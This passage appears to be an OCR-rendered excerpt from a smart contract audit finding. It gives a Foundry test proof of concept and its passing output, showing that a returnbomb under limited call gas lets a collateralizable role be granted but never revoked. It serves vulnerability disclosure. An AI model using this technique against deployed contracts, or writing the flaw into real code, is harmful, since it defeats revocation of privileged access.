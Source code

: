 ```
/// @notice the use of a returnbomb.
/// @dev We&#x27;ll be using a realistic amount of callgas to
/// @dev demonstrate the vulnerability.
function testImmortalCollateralizable() external {
    /// @notice We can successfully assign the privileged role:
    this.modifyCollateralizableApprovalStatus{gas: 100_000}({
        isApproved: true
    });
    console.log(&quot;Approval status assignment succeeded!&quot;);
    /// @notice However, attempts to unset the role can be locked forever:
    vm.expectRevert();
    this.modifyCollateralizableApprovalStatus{gas: 100_000}({
        isApproved: false
    });
    console.log(&quot;Approval status removal failed!&quot;);
}
```

} \`\`\`

This should result in the following output, demonstrating the \`collateralizableContract\` role can be retained:

\`\`\`shell Ran 1 test for test/Counter.t.sol:ImmortalCollateralizableTest \[PASS] testImmortalCollateralizable() (gas: 149659) Logs: Approval status assignment succeeded! Approval status removal failed!

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.89s (488.07ms CPU time)

Ran 1 test suite in 2.05s (1.89s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests) \`\`\`

